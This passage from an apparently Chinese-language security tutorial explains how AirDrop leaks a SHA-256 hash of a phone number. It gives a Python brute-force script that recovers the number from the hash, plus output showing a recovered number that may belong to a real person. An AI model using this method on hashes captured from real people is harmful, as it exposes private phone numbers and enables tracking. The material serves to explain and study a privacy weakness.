 



### 5.1 哈希碰撞

然后它可以这样利用：

假设不知道你的手机号码，但是可以通过社工进行得知，你是首批放号的中国联通号码

实际情况下可以是任意条件，如果是熟人作案的话更快拿到信息

现在截取了一段AirDrop传输的时候泄露的哈希值，那我们可以通过哈希碰撞进行查找你的手机号码



具体详情很复杂，这里给一个最简单的演示：

```python
import hashlib

target_hash = 'c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc'
start = 8617000000000
end = 8617099999999

for i in range(end,start,-1):
    plainText = str(i)
    cipherText = hashlib.sha256(plainText.encode('utf-8')).hexdigest()
    
    if cipherText == target_hash:
        print("碰撞成功:")
        print("密文为:", cipherText)
        print("明文为:", plainText)
        break
    else:
        print("碰撞中-------",i)
```

运行结果：

```
密文为: c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc
明文为: 8617091733716
```

![image-20241121113632229](../_media/image-20241121113632229.png)
